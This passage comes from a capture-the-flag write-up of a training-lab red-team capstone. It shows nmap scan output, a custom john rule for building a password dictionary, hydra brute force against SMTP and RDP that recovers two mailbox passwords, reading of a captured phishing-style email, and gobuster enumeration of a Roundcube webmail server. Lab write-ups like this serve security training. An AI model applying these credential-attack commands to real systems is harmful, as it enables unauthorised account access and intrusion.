SF:0\x0b\x08\x05\x1a\0")%r(HTTPOptions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r
SF:(RTSPRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\0\0
SF:\x0b\x08\x05\x1a\0")%r(DNSVersionBindReqTCP,9,"\x05\0\0\0\x0b\x08\x05\x
SF:1a\0")%r(DNSStatusRequestTCP,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0
SF:\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(Help,9,"
SF:\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SSLSessionReq,2B,"\x05\0\0\0\x0b\x08\x
SF:05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05
SF:HY000")%r(TerminalServerCookie,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TLSS
SF:essionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x8
SF:8'\x1a\x0fInvalid\x20message\"\x05HY000")%r(Kerberos,9,"\x05\0\0\0\x0b\
SF:x08\x05\x1a\0")%r(SMBProgNeg,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(X11Pro
SF:be,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\
SF:x0fInvalid\x20message\"\x05HY000")%r(FourOhFourRequest,9,"\x05\0\0\0\x0
SF:b\x08\x05\x1a\0")%r(LPDString,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LDAPS
SF:earchReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88
SF:'\x1a\x0fInvalid\x20message\"\x05HY000")%r(LDAPBindReq,46,"\x05\0\0\0\x
SF:0b\x08\x05\x1a\x009\0\0\0\x01\x08\x01\x10\x88'\x1a\*Parse\x20error\x20u
SF:nserializing\x20protobuf\x20message\"\x05HY000")%r(SIPOptions,9,"\x05\0
SF:\0\0\x0b\x08\x05\x1a\0")%r(LANDesk-RC,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")
SF:%r(TerminalServer,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NCP,9,"\x05\0\0\0
SF:\x0b\x08\x05\x1a\0")%r(NotesRPC,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\
SF:0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(JavaR
SF:MI,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(WMSRequest,9,"\x05\0\0\0\x0b\x08
SF:\x05\x1a\0")%r(oracle-tns,32,"\x05\0\0\0\x0b\x08\x05\x1a\0%\0\0\0\x01\x
SF:08\x01\x10\x88'\x1a\x16Invalid\x20message-frame\.\"\x05HY000")%r(afp,2B
SF:,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fIn
SF:valid\x20message\"\x05HY000")%r(giop,9,"\x05\0\0\0\x0b\x08\x05\x1a\0");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=5/21%OT=22%CT=1%CU=43122%PV=Y%DS=2%DC=T%G=Y%TM=646A6B1
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=10D%TI=I%CI=I%II=I%SS=S%TS=U
OS:)OPS(O1=M507NW8NNS%O2=M507NW8NNS%O3=M507NW8%O4=M507NW8NNS%O5=M507NW8NNS%
OS:O6=M507NNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%D
OS:F=Y%T=80%W=FFFF%O=M507NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0
OS:%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=
OS:Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y
OS:%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R
OS:%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=
OS:80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z
OS:)

Network Distance: 2 hops
Service Info: Host: MAIL; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-05-21T19:03:42
|_  start_date: N/A

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   51.59 ms 10.50.118.1
2   25.33 ms thereserve-mail.thm (10.200.121.11)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 127.85 seconds
```

The hostname is : MAIL.thereserve.loc

```shell
echo "10.200.121.11    mail.thereserve.loc" >> /etc/hosts
```

### the web aplication

Let's browse the website :

```shell
firefox http://thereserve-mail.thm/ &
```


This is a windows server with IIS running.

The enumeration do not provide any usefull information yet.

### Bruteforcing accounts

Since we known some possible usernames, we can try to crack some credentials agains the SMTP service.

With the password policy provided, and a wordlist to use, we can forge a dictionnary in order to make a password attack.

We will use `john` to generate this dictionnary.

make a copy of john config file in order to modify it:

```shell
cp /opt/tools/john/run/john.conf .
```

At the end of local john.conf, add a custom rulie named "THM-RedTeam-Capstone" :

```text
# Custom
[List.Rules:THM-RedTeam-Capstone]
Az"[0-9]" $[!@#$%^]
```

- `Az` a word
- `"[0-9]"` then with a number
- `$[!@#$%^]` at the end (`$`) , add a special character

We guess to have more luck with a special character at the end of the password, as it is more common.

```shell
john --config=./john.conf --rules=THM-RedTeam-Capstone --wordlist=./Capstone_Challenge_Resources/password_base_list.txt --stdout > password_dictionnary.txt
```

Let's break some credentials :

```shell
hydra -L user_emails.txt -P password_dictionnary.txt smtp://thereserve-mail.thm
```

```text
[25][smtp] host: thereserve-mail.thm   login: laura.wood@corp.thereserve.loc   password: Password1@
[25][smtp] host: thereserve-mail.thm   login: mohammad.ahmed@corp.thereserve.loc   password: Password1!
```

Same with RDP service :

```shell
hydra -L user_emails.txt -P password_dictionnary.txt thereserve-mail.thm rdp
```

```text
[3389][rdp] account on 10.200.121.11 might be valid but account not active for remote desktop: login: laura.wood@corp.thereserve.loc password: Password1@, continuing attacking the account.
[3389][rdp] account on 10.200.121.11 might be valid but account not active for remote desktop: login: mohammad.ahmed@corp.thereserve.loc password: Password1!, continuing attacking the account.
```

Knowing laura.wood@corp.thereserve.loc and mohammad.ahmed@corp.thereserve.loc credentials, we can access their email account and read mails.

mohammad.ahmed@corp.thereserve.loc have no mail.

laura.wood@corp.thereserve.loc have some emails sent. One could have some interest :

```
From: "laura.wood" <laura.wood@corp.thereserve.loc>
To: Emily Harvey <emily.harvey@corp.thereserve.loc>
Subject: Change to VPN Portal
Date: Sun, 21 May 2023 05:27:47 -0900
Reply-To: cyberthulhu22@corp.th3reserve.loc
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101
 Thunderbird/102.9.0

Hello dear colleagues, The developers team have made some change on our 
VPN portal, could you connect by running the attached and check if you 
still have access to the network ?

Many thanks

Aimee Walker & Patrick Edwards, Lead Developers at TheReserve
```

A .cpl file is attached.

OK, so there was some change in the VPN configuration recently. Tht's why there are some issues with VPN.


Knowing the name of the server mail.thereserve.loc, we can enumerate with this username :

```shell
gobuster dir -u http://mail.thereserve.loc/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php
```

Result:

```text
/index.php            (Status: 200) [Size: 5345]
/skins                (Status: 301) [Size: 156] [--> http://mail.thereserve.loc/skins/]
/plugins              (Status: 301) [Size: 158] [--> http://mail.thereserve.loc/plugins/]
/program              (Status: 301) [Size: 158] [--> http://mail.thereserve.loc/program/]
/Index.php            (Status: 200) [Size: 5363]
/vendor               (Status: 301) [Size: 157] [--> http://mail.thereserve.loc/vendor/]
/Skins                (Status: 301) [Size: 156] [--> http://mail.thereserve.loc/Skins/]
/INDEX.php            (Status: 200) [Size: 5363]
/installer            (Status: 301) [Size: 160] [--> http://mail.thereserve.loc/installer/]
/Program              (Status: 301) [Size: 158] [--> http://mail.thereserve.loc/Program/]
/public_html          (Status: 301) [Size: 162] [--> http://mail.thereserve.loc/public_html/]
/Plugins              (Status: 301) [Size: 158] [--> http://mail.thereserve.loc/Plugins/]
/Installer            (Status: 301) [Size: 160] [--> http://mail.thereserve.loc/Installer/]
...
```

we can browse to :
http://mail.thereserve.loc/index.html :


This is a roundcube instance, a webmail.


